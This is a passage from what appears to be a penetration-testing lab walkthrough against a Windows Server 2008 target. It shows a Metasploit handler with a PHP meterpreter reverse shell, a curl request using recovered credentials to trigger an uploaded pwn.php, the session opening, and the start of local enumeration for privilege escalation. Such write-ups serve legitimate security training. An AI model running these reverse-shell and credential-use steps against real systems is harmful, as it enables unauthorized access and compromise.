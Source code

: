 Let's set up our meterpreter listener and trigger the reverse shell by connecting on port 242 with the recovered credentials of `offsec:elite`.

```
kali@kali:~$ msfconsole
...
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.49.68
LHOST => 192.168.49.68
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.68:443 
```

Now, we'll trigger our reverse shell.

```
kali@kali:~$ curl --user offsec:elite 192.168.68.46:242/pwn.php

```

The listener indicates that we have received our shell.

```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.68:443 
[*] Sending stage (38288 bytes) to 192.168.68.46
[*] Meterpreter session 1 opened (192.168.49.68:443 -> 192.168.68.46:49167) at 2020-12-27 18:14:21 +0000

meterpreter > getuid
Server username: apache (0)
meterpreter >
```

## Escalation

### Local Enumeration

Next, we'll perform local enumeration in the hopes of escalating our privileges. We'll begin by enumerating the operating system version.

```
meterpreter > sysinfo 
Computer    : LIVDA
OS          : Windows NT LIVDA 6.0 build 6001 (Windows Server 2008 Standard Edition Service Pack 1) i586
Meterpreter : php/windows
meterpreter >

```

